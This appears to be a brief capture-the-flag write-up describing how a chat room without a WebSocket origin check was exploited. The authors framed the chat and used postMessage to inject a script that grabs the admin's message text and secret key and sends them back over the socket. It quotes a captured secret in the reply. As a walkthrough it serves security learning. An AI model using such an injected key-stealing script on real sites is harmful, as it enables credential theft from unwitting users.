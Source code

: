 The chat room had a vulnerability of not performing an origin check. This enabled us to include the chat frame in a page from
where we can control it's behaviour.
We first create a webpage with an iframe inside it that creates a websocket to connect to the chat.
Then using postMessage and the websocket, we inject the following code through a websocket on which the admin connects as well to send messages:
<script>
$( "#key" ).focusout(function() {
    var t = $('#text').val(); 
    var k = $('#key').val();
    ws.send(JSON.stringify({author: 'pwn3r', text: t + ' : ' + k}));
});
</script>

This captures the text and key values when the admin tries to post to the private messages page and send it back to us on the websocket in plain text.
The key value is the admin's secret key.
The reply was "Good work! : gOUh3ujK3ChRw8MF"